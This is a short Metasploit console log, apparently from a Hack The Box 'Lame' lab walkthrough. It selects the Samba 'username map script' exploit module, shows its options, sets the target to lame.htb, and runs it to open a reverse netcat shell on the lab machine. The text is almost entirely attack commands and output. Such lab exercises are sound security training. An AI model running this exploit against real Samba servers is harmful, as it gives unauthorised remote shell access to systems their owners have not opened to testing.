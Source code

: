 ````
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:p
                                       ort][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com
                                       /docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.211.55.11     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set rhost lame.htb
rhost => lame.htb
msf6 exploit(multi/samba/usermap_script) > set lhost tun0
lhost => 10.10.14.10
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:45549) at 2023-05-28 22:32:45 +0530


````
